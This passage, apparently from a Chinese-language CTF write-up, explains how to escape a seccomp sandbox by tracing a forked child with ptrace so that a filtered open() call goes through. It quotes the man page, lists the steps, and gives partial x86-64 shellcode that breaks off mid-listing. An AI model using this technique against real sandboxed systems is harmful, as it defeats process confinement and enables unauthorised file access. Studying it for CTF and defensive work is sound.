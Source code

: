 >   Before Linux 4.8, the seccomp check will not be run again
>   after the tracer is notified.  (This means that, on older
>   kernels, seccomp-based sandboxes must not allow use of
>   ptrace(2)—even of other sandboxed processes—without
>   extreme care; ptracers can use this mechanism to escape
>   from the seccomp sandbox.)
>
>   Note that a tracer process will not be notified if another
>   filter returns an action value with a precedence greater
>   than SECCOMP_RET_TRACE.

大致意思是 `SECCOMP_RET_TRACE` 允许将系统调用交由 ptrace 调试处理，从而为调试器提供更大的控制能力，于是这道题的解法又回到了内核版本 4.8 前的思路：

1. fork 出一个子进程，在其中运行常规 orw，此时会触发 TRACE；
2. 父进程中 ptrace 上子进程，并调用 wait 等待子进程的状态改变；
3. 设置 ptrace 调试选项启用 `PTRACE_O_TRACESECCOMP`，用于追踪 seccomp 事件；
4. 设置 `PTRACE_CONT` 恢复并继续子进程的执行；
5. 再次调用 wait 等待子进程的状态改变，这时候子进程会调用到被过滤的 open；
6. 在捕获到 seccomp 事件后，父进程解除对子进程的调试控制，这时候被过滤的 open 也能正常执行，相当于无事发生，在这里就完成了对子进程系统调用的 hook。

```python
NR_fork = 57
NR_ptrace = 101
NR_wait = 61
PTRACE_ATTACH = 16
PTRACE_SETOPTIONS = 0x4200
PTRACE_O_TRACESECCOMP = 0x00000080
PTRACE_CONT = 7
PTRACE_DETACH = 17
shellcode = f"""
main:
/*fork()*/
    push {NR_fork}
    pop rax
    syscall
    push rax
    pop rbx
    test rax,rax
    jz child_code

/*ptrace(PTRACE_ATTACH, pid, NULL, NULL)*/
    xor r10, r10
    xor edx, edx
    mov rsi,rbx
    mov rdi,{PTRACE_ATTACH}
    push {NR_ptrace}
    pop rax
    syscall

/* wait child  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

/* ptrace(PTRACE_SETOPTIONS, pid, NULL, PTRACE_O_TRACESECCOMP) */
    mov r10,{PTRACE_O_TRACESECCOMP}
    xor rdx, rdx
    mov rsi,rbx
    mov rdi, 0x4200
    push {NR_ptrace}
    pop rax
    syscall
    js error

```